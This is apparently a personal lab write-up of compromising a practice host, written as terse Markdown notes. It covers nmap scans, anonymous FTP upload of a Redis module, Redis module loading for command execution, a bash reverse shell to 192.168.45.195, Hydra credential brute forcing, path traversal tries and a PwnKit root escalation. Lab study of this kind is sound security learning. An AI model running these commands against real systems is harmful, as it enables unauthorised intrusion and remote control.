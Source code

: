 ### Enumeration
```
IP=192.168.218.93
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p21,22,80,6379 -A $IP
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 21
	- vsftpd 3.0.2
	- nc -nv $IP 21
		- vsftpd 3.0.2
- 22
	- OpenSSH 7.4 (protocol 2.0)
	- nc -nv $IP 22
		- SSH-2.0-OpenSSH_7.4
- 80
	- Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
	- nc -nv $IP 80
		- http
- 6379
	- Redis key-value store 5.0.9
	- nc -nv $IP 6379
		- redis
### Foothold
- 21
	- ftp anonymous@$IP
		- successful
		- /pub
		- passive is on
		- passive off
			- 200 EPRT command successful. Consider using EPSV.
		- cd pub
			- upload module.so
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- 6379
	- ./redis-rogue-server.py --rhost $IP --lhost 192.168.45.195
		- no work
	- Execute commands: https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
	- nc -nv $IP 6379
		- info
			- writes out command
		- After module.so was put on ftp server
		- MODULE LOAD /var/ftp/pub/module.so
		- system.exec "id"
			- ![[Pasted image 20240717155849.png]]
			- `/bin/bash -i >& /dev/tcp/192.168.45.195/21 0>&1` to get rce
- 80
	- Default landing page
		- ![[Pasted image 20240717153020.png]]
		- Search
			- ![[Pasted image 20240717153039.png]]
			- Puts it in url
			- Tried `../../../../../../../etc/passwd`
				- http://192.168.218.93/etc/passwd
	- Versions
		- HTMLy v2.7.5
			- From source code
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
			- /login
				- ![[Pasted image 20240717153239.png]]
				- Search takes you to same search feature
				- admin:admin
					- username not found in our record
			- /composer.json
				- ![[Pasted image 20240717153508.png]]
			- /humans.txt
				- ![[Pasted image 20240717153619.png]]
	- Vulnerability scan
		- nikto -h http://$IP
			- /robots.txt
				- ![[Pasted image 20240717153212.png]]
			- Apache/2.4.6 (CentOS) PHP/7.3.22
### PE
#### Linux
- pablo
	- id
		- uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)
	- sudo -l
		- needs password
	- uname -a
		- Linux sybaris 3.10.0-1127.19.1.el7.x86_64 #1 SMP Tue Aug 25 17:23:54 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
		- ./PwnKit
			- rooted
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- pablo
	- netstat -ano
		- Active ports
			- 6379
			- 55192
			- 323
			- 25
	- linpeas
		- Possible Exploits
		- Interesting Files
### Credentials
### Lessons Learned